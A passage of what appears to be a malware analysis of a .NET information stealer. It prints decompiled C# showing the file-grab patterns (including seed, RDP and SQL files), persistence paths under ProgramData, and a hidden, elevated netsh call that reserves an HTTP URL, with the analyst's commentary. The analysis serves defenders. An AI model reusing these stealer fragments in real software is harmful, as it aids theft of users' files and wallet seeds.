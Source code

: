 ```cs
Config.Raddaelofusss = new List<string>
{
    "*.txt",
    "*seed*",
    "*.dat",
    "*.rdp",
    "*.sql",
    "*.doc*",
    "*.docx"
};
```
It sets limits on how deep into the file system to search (`GrabberDepth = 2`) and the maximum file size to grab (`GrabberFileSize = 10`, likely in `MB`). The following paths and names are used to establish persistence in a directory under `CommonApplicationData`, likely something like `C:\ProgramData\ulovjn\vjrevej.exe`:

```cs
Config.dir = "ulovjn";
Config.bin = "vjrevej";
Config.wofccccch = new DirectoryInfo(Path.Combine(Environment.GetFolderPath(Environment.SpecialFolder.CommonApplicationData), Config.dir));
Config.Wondefullile = new FileInfo(Path.Combine(Config.wofccccch.FullName, Config.bin + ".exe"));
```
Lastly, the malware identifies its own process path using:

```cs
Config.Savanna = Process.GetCurrentProcess().MainModule.FileName;
```
This allows it to perform operations like copying, persistence installation, or self-deletion. In sum, this configuration block provides a clear view into the stealer’s functionality—C2 communication, file harvesting, and persistence.


## Functionality

In terms of the stealers actual operations, the first thing it does is make use of the Windows `netsh` utility to reverse a `HTTP` URL for listening on the system, so that the malware has that URL available to bind to later on:

```cs
public class Program
{
    private static void ReserveUrl(string url)
    {
        ProcessStartInfo startInfo = new ProcessStartInfo
        {
            FileName = "netsh",
            Arguments = "http add urlacl url=" + url + " user=Everyone",
            Verb = "runas",
            CreateNoWindow = true,
            WindowStyle = ProcessWindowStyle.Hidden,
            UseShellExecute = true
        };
        try
        {
            Process.Start(startInfo).WaitForExit();
        }
        catch (Exception ex)
        {
            // Reservation error message in Russian
            Console.WriteLine("Ошибка резервирования URL: " + ex.Message);
        }
    }
}
```
